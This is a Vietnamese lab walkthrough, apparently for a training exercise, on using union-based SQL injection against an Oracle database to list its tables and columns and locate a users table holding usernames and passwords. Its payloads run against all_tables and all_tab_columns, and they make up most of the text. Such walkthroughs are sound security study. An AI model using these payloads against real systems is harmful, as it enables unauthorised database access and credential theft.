 ![image](https://github.com/user-attachments/assets/ee2199dd-12f1-4a23-8d6e-110634811ae4)

Bài này có cách làm na ná với bài SQL injection attack, listing the database contents on non-Oracle databases  tuy nhiên ở đây là dùng cheat seat cho ORACLE thay vì dùng của Microsoft

Mục tiêu: khai thác danh sách nội dung database từ phiên bản oracle

Lỗ hổng: Truy vấn vào category - dạng union base

Thử payload sau 

   'union select 'abc','def' from dual-- -

   ![image](https://github.com/user-attachments/assets/e58b44e9-a628-4547-967b-e668760f561b)

Ở đây có thể xác nhận rằng nó vẫn sẽ có 2 cột để tiêm vào là banner và text(theo ý hiểu của em là thế)

Payload dùng để tìm tất cả nội dung có trong table

     'union select table_name,null from all_tables-- -

![image](https://github.com/user-attachments/assets/602010dc-c601-462c-b38e-7e85355909e0)

Sau khi thành công thì ở đây có USERS_TVOCHW là khác với các cái khác nên sẽ sử dụng nó trong payload sau:

   'UNION SELECT table_name,column_name FROM all_tab_columns WHERE table_name = 'USERS_TVOCHW'-- -

   ![image](https://github.com/user-attachments/assets/b9a15d73-b523-4e87-8b6c-3ae36cb54d41)

USERS_TVOCHW
PASSWORD_HNQWRS

USERS_TVOCHW
USERNAME_NJCTHC

Ở đây do có tận 2 cái nên thử từng cái 1 với payload sau

    'UNION SELECT * FROM *-- -

Có vẻ như cả 2 đều sai do bị dính internal server error nên dùng lại cách khác 

Thử lại payload cũ 
        'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_TVOCHW'-- -

![image](https://github.com/user-attachments/assets/834a6764-6d36-4607-8df9-4c190ea073c4)

Có vẻ đây mới là thật

Thử lại 

 ![image](https://github.com/user-attachments/assets/d9db77f0-87e8-4b91-9973-085b999544cb)

xong

